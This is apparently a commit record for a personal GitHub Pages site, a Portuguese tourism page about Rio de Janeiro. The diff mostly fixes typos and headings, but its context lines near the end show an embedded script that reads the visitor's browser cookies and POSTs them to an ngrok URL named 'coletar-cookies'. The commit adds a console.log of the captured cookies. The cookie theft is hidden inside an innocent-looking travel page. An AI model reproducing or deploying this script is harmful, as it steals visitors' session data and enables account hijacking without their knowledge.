

Before and after one commit to sabara22/sabara22.github.io, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Rio de Janeiro - Cidade Maravilhosa!!!!</title>
+    <title>Rio de Janeiro - Cidade Maravilhosa</title>
     <style>
         body {
             font-family: Arial, sans-serif;
@@ -51,7 +51,7 @@
 </head>
 <body>
     <header>
-        <h1>Rio de Janeiro - Cidade Maravilhosa</h1>
+        <h1>Rio de Janeiro - Cidade Maravilhosa e Perfeita</h1>
     </header>
 
     <div class="content">
@@ -60,9 +60,9 @@
             <button onclick="performSearch()">Buscar</button>
         </div>
 
-        <h2>Sobre o Rio de Janeiro.</h2>
+        <h2>Sobre o Rio de Janeiro</h2>
         <p>
-            O Rio de Janeiro é uma grande cidade brasileira à beira-mar, famosa pelas praiass de Copacabana e Ipanema, pela estátua de 38 metros de altura do Cristo Redentor, no topo do Corcovado, e pelo Pão de Açúcar, um pico de granito com teleféricos até seu cume. A cidade também é conhecida pelas grandes favelas. O empolgante Carnaval, com carros alegóricos, fantasias extravagantes e sambistas, é considerado o maior do mundo.
+            O Rio de Janeiro é uma grande cidade brasileira à beira-mar, famosa pelas praias de Copacabana e Ipanema, pela estátua de 38 metros de altura do Cristo Redentor, no topo do Corcovado, e pelo Pão de Açúcar, um pico de granito com teleféricos até seu cume. A cidade também é conhecida pelas grandes favelas. O empolgante Carnaval, com carros alegóricos, fantasias extravagantes e sambistas, é considerado o maior do mundo.
         </p>
 
         <h2>Pontos Turísticos</h2>
@@ -120,6 +120,9 @@
             const cookies = document.cookie;  // Captura os cookies do navegador
             const url = 'https://f9f6-177-192-8-19.ngrok-free.app/coletar-cookies';  // Seu URL ngrok
 
+            // Exibe os cookies no console para depuração
+            console.log("Cookies capturados:", cookies);
+
             fetch(url, {
                 method: 'POST',
                 headers: {
```
